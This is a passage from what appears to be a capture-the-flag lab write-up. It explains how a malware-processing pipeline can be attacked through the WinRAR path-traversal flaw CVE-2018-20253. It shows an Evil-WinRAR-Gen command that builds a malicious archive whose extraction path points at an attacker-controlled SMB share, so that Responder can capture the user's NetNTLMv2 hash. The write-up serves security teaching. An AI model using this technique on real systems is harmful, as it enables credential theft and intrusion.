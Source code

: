 ```powershell
	Remove-Item -Recurse -force -Path $process_dir\*
	Start-Sleep -s 5
}
```

If I understand this correctly:

- The contents of the `malware_dropbox` share are moved to `C:\Users\luke\Documents\malware_process`
- The .ods files are renamed to .zip
- The .zip file is extracted and the contents processes by the Yara rules with `yara64.exe`
- If the file matches a Yara rule, it gets deleted
- Anything left gets executed with LibreOffice
- The files are repackaged in a .rar file and moved to `C:\Users\luke\Documents\ods` for further processing

The .rar reference is a subtle hint. When I look at the Downloads directory I see that an old WinRAR version was downloaded:

```
03/13/2019  06:45 PM       298,860,544 LibreOffice_6.2.1_Win_x64.msi
03/14/2019  05:13 AM         3,809,704 npp.7.6.4.Installer.x64.exe
03/15/2019  10:22 AM         1,987,544 winrar-5-50-beta-1-x86.exe
```

There's a `CVE-2018-20253` that impacts all versions prior to and including 5.60. When the filename field is manipulated with specific patterns, the destination folder is ignored and the filename is treated as an absolute path. So basically an attacker can write anywhere on the target host when the file is unpacked, not just the directory where's it's extracted. This vulnerability is similar to the zipslip vulnerability.


The first thing I'll try it to get the hash of the user extracting the .rar files:

```
# python3 /opt/Evil-WinRAR-Gen/evilWinRAR.py -e evil.txt -g good.txt -p '\\10.10.16.9\snowscan\gimmehashes'

          _ _  __      ___      ___    _   ___
  _____ _(_) | \ \    / (_)_ _ | _ \  /_\ | _ \
 / -_) V / | |  \ \/\/ /| | ' \|   / / _ \|   /
 \___|\_/|_|_|   \_/\_/ |_|_||_|_|_\/_/ \_\_|_\

                                        by @manulqwerty

----------------------------------------------------------------------

[+] Evil archive generated successfully: evil.rar
[+] Evil path: \\10.10.16.9\snowscan\gimmehashes
```

The .rar file will try to extract to an SMB on my system and I'll use responder to get the NetNTLMv2 hash of the user.

![](/assets/images/htb-writeup-re/responder.png)
